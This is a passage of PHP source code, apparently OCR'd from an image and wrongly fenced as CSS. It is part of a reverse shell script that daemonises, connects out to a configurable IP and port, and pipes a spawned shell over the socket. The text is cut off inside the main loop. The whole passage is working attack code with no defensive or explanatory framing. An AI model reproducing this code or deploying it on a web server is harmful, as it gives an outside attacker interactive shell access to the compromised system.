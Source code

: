 ```css
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
```